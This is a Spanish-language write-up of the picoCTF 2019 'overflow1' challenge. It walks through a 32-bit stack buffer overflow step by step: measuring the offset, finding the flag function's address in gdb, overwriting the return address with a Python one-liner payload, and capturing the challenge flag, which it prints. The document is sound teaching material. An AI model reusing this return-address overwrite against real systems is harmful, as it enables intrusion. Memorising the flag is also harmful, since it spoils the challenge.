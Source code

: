 Overflow1
============
###### You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://github.com/jntxJ/CTF-WriteUps/blob/master/2019/picoCTF/pwn/overflow1/vuln) ? You can find it in /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260 on the shell server. [Source](https://github.com/jntxJ/CTF-WriteUps/blob/master/2019/picoCTF/pwn/overflow1/vuln.c).
---
El ejercicio nos dice que debemos lograr cambiar la dirección de retorno y que nos lleve a la función `flag`.

Ya con los archivos hacemos `file *` 
```
$ file *
vuln:      ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d4cdc8dc51fb3e5d45c2a59c6a9cd7958382fc9, not stripped
vuln.c:    C source, ASCII text
```
Veamos que hace el programa.
```
$ ./vuln 
Give me a string and lets see what happens: 
hello
Woah, were jumping to 0x8048705 !
```
Simplemente nos pide un input y nos dice la instrucción a la que hemos saltado.
Así que cuando logremos llegar a la función `flag`, supongo que nos mostrara la dirección.

Source [vuln.c](https://github.com/jntxJ/CTF-WriteUps/blob/master/2019/picoCTF/pwn/overflow1/vuln.c)

``` C
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  ...
  fgets(buf,FLAGSIZE,f);
```
Algunos detalles de assembly antes de seguir.

| registro | arquitectura | descripción |
| :-------:| :----------: | :-----------|
| eip      | 32 bits      | El registro que almacena la siguiente instrucción a la cual ir |
| rip      | 64 bits      | Instruction pointer register |
| ebp      | 32 bits      | El registro que apunta a una ubicación fija dentro del marco de una función, así sera más fácil acceder a variables y argumentos |
| rbp      | 64 bits      | Base pointer register |


Siguiendo con el fuente, nos encontramos con un buffer de 64, haciendo la prueba de fuego.
```
$ python -c 'print "A"*64' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
```
Vemos que no pasa nada, ya que los siguientes 4 bits guardaran la data que tenga el registro `%ebp` y los siguientes 4 bytes tendrán la dirección de retorno (almacenada en `%eip`).

Lo explica Dhaval Kapil en su brutal [articulo](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)

Sumaremos los 4 bytes de %eip y los 4 bytes de %ebp, se los agregamos a los 64 del buffer
```
$ python -c 'print "A"*72' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
Violación de segmento
```
Obtenemos el overflow, bien.

Saquemos la direccion en memoria de la función `flag`, con gdb, objdump, ida.. Usa el de preferencia.
```
gdb ./vuln
info functions
...
0x080485e6  flag
...
```
Un detalle importante para este paso es conocer si nuestro sistema es [little-endian o big-endian](http://wikitronica.labc.usb.ve/index.php/Little_Endian_y_Big_Endian)
Esto decidirá como va a leer nuestro programa el procesador.

Si eres un `little-endian` (un pequeño indio e.e), entonces debemos colocar la dirección de `flag` en reverso.

i.e: `0x080485e6  flag` entonces pondremos `e6` `85` `04` `08`
```
$ python -c 'print "A"*72 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
Violación de segmento
```
¿Por que habrá salido dos veces la instrucción?
```
$ gdb ./vuln -q
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
gdb-peda$ b vuln
Breakpoint 1 at 0x8048663
gdb-peda$ r <<< $(python -c 'print "A"*72 + "\xe6\x85\x04\x08"')
```
```
gdb-peda$ c
Continuing.
Woah, were jumping to 0x8048700 !
[----------------------------------registers-----------------------------------]
EAX: 0x22 ('"')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffffff 
EDX: 0xf7fa4010 --> 0x0 
ESI: 0xf7fa2000 --> 0x1d6d6c 
EDI: 0xf7fa2000 --> 0x1d6d6c 
EBP: 0xffffd1b8 --> 0x80485e6 (<flag>:	push   ebp)
ESP: 0xffffd1b4 ("AAAA\346\205\004\b\005\207\004\b\001")
```
Revisando en gdb no he entendido por que, pero seguiré investigando.

Aún no hemos llegado a la dirección de la función `flag`
```
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
```
Si intentamos `"A"*73` vemos esto:
```
$ python -c 'print "A"*73 + "\xe6\x85\x04\x08"' | ./vuln
Woah, were jumping to 0x8040008 !
```
##### Hemos cambiado el registro que direcciona!!

Why do this :0?
- Sencillamente son los 4 bytes que ocupa la dirección de la función `flag` que estamos agregando despues de imprimir las `"A"`.
```
$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.
```
`Woah, were jumping to 0x80485e6 !`
Y ahí lo tenemos, estamos en la dirección de la función `flag`

Si lo corremos en la shell de picoCTF
```
pico-2019:/$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}Segmentation fault (core dumped)
```
##### picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}

